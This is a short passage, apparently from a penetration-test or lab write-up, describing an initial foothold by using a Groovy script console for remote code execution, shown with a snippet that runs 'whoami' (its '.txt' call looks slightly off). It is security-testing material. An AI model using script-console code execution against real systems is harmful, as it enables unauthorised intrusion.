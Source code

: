 ![](images/2025-02-09_2.png)

## 3. Initial Foothold / Exploitation

### 3.1 Groovy Script Console to RCE

A test command confirmed code execution was possible.
```groovy
cmd = "whoami"
println cmd.execute().txt
```